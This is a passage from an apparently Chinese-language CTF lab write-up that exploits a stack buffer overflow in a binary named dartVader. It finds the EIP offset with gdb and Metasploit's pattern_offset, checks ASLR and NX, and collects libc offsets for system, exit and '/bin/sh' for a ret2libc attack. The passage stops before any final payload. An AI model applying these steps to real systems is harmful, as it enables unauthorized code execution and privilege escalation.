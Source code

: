 EIP 被 `0x63413563` (ASCII "c5Ac") 覆盖。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x63413563 -l 80
[*] Exact match at offset 76
```

偏移量为 76 字节。验证：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ gdb dartVader
(gdb) run $(python2 -c 'print "A"*76 + "BBBB"')
Starting program: /mnt/hgfs/gx/dartVader $(python2 -c 'print "A"*76 + "BBBB"')
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) info registers eip
eip            0x42424242          0x42424242
```

EIP 成功被 `BBBB` (0x42424242) 覆盖。

检查系统保护机制：

* ASLR (地址空间布局随机化):

  ```bash
  erso@deathStar1:~$ cat /proc/sys/kernel/randomize_va_space
  2
  ```

  ASLR 完全开启。

* NX (No-eXecute bit):

  ```bash
  erso@deathStar1:~$ readelf -W -l /bin/dartVader 
  # ...
  Program Headers:
    Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  # ...
    GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10 
  # ...
  ```

  `GNU_STACK` 标志为 `RW`，表示栈区可读可写但不可执行，NX bit 开启。

由于 ASLR 和 NX 开启，直接注入 shellcode 到栈上执行不可行。采用 Ret2Libc (返回到 libc) 技术。
由于是 32 位系统，libc 地址虽然随机化，但范围相对较小，可以尝试爆破 libc 基址。

获取 libc 中 `system`、`exit` 函数和 `"/bin/sh"` 字符串的偏移量：

```bash
erso@deathStar1:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep " system@"
  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
# system_offset = 0x00040310

erso@deathStar1:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep " exit@"
   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
# exit_offset = 0x00033260

erso@deathStar1:~$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
 162d4c /bin/sh
# sh_offset = 0x162d4c
```
